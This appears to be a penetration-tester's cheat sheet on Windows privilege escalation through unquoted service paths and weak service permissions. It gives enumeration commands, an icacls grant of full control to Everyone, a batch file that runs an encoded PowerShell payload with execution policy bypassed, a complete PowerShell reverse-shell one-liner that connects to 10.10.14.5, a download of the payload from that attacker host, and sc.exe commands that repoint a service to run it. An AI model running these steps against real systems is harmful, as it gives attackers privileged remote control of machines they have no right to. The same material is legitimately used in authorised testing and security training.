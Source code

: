 # Example:

## Manual Enumeration: cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

### C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

#### If this is unquoted, cmd will search for programs to execute like:

### C:\MyPrograms\Disk.exe

### C:\MyPrograms\Disk Sorter.exe

#### 1: Check permissions on directories with icacls.

    icacls .

#### You can also use a tool named Get-ServiceAcl powershell script https://github.com/Sambal0x/tools/blob/master/Get-ServiceAcl.ps1

    Get-ServiceAcl.ps1

    "SERVICE_NAME" | Get-ServiceAcl | select -ExpandProperty Access

#### If BUILTIN/Users has (AI) and (WD), a user is allowed to create subdirectories and files respectively.

#### 2: msfvenom payload

#### 3: Rename payload to one of the arguments then grant it (F) permissions with icacls

     icacls "c:\path\to\service.exe" /grant Everyone:F

## OR 

#### Write a batch file (runme.bat) that the service will execute

#### Write runme.bat with UTF-16LE and base64 encoding for padding.

      @echo off
      start /b powershell.exe -exec bypass -enc <base64_encoded_payload> 
      exit /b

#### Base54 encoded payload

      $client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#### 4: Create a temp directory

      mkdir temp

      cd c:\temp

#### 5: Upload the batch file on target machine

      (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5:9999/runme.bat','c:\temp\runme.bat')

#### 6: Setup listener

#### 7: Restart service

      sc.exe stop SERVICE_NAME

      sc.exe config SERVICE_NAME binPath="cmd.exe /c c:\temp\runme.bat"

      sc.exe qc SERVICE_NAME

      sc.exe start SERVICE_NAME
